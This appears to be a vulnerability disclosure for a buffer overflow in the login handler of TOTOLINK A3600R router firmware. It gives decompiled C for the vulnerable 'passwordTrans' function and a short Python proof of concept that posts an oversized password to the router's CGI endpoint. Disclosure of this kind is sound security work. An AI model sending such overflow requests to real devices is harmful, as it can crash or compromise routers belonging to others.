 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v10` variable receives the `password` parameter from a POST request. However, since the user can control the input of `password`, the statement `passwordTrans((int)v10, v28);` can cause a buffer overflow injection vulnerability.

![image-20240719230438781](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230438781.png)

```c
int __fastcall passwordTrans(int a1, _BYTE *a2)
{
  _BYTE *v3; // $s5
  _BYTE *v4; // $s2
  int v5; // $s1
  int v6; // $s0
  int result; // $v0

  v3 = a2;
  v4 = a2;
  v5 = 1;
  v6 = 0;
  while ( 1 )
  {
    result = *(char *)(a1 + v6);
    if ( !*(_BYTE *)(a1 + v6) )
      break;
    if ( result == 37 )
    {
      *v4 = hextochar(*(char *)(a1 + v6 + 1), *(char *)(a1 + v6 + 2));
      v6 += 3;
    }
    else
    {
      *v4 = result;
      ++v6;
    }
    ++v5;
    ++v4;
  }
  v3[v5 - 1] = 0;
  return result;
}
```

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720235757375](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235757375.png)
